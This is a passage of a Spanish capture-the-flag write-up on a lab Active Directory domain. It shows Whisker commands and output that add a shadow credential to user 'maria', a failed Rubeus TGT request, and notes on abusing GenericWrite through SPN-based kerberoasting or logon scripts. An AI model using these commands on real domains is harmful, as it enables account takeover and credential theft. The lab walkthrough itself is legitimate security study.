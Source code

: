 Ahora creamos con `Whisker` la shadow cred, se nos creará un certificado para poder solicitar posteriormente con `Rubeus` un TGT como maría y poder conseguir el hash.

```console
*Evil-WinRM* PS C:\Users\smith\Documents> .\Whisker.exe add /target:maria /path:cert.pfx /dc:127.0.0.1
[*] No pass was provided. The certificate will be stored with the password T7mQzob9bpSWr1cQ
[*] Searching for the target account
[*] Target user found: CN=maria garcia,CN=Users,DC=object,DC=local
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 59d02765-9df6-4a4a-a789-eb8994d9770e
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Saving the associated certificate to file...
[*] The associated certificate was saved to cert.pfx
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:maria /certificate:cert.pfx /password:"T7mQzob9bpSWr1cQ" /domain:object.local /dc:127.0.0.1 /getcredentials /show
*Evil-WinRM* PS C:\Users\smith\Documents> .\Rubeus.exe asktgt /user:maria /certificate:cert.pfx /password:"T7mQzob9bpSWr1cQ" /domain:object.local /dc:127.0.0.1 /getcredentials /show

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=maria
[*] Building AS-REQ (w/ PKINIT preauth) for: 'object.local\maria'
[*] Using domain controller: 127.0.0.1:88

[X] KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP
```

Vemos un error, `KDC_ERR_PADATA_TYPE_NOSUPP`

> The error "KDC_ERR_PADATA_TYPE_NOSUPP" simply means that the KDC is not set up for Kerberos authentication


Tenemos otras opciones para abusar el privilegio `GenericWrite`, podemos establecer un SPN al usuario para posteriormente kerberoastearlo e intentar crackear el hash, o podemos establecer un script que se ejecutará como este usuario la próxima vez que inicie sesión. 

> - We can set a service principal name and we can kerberoast that account.
>     
> - We can set objects like logon script which would get executed on the next time account logs in.
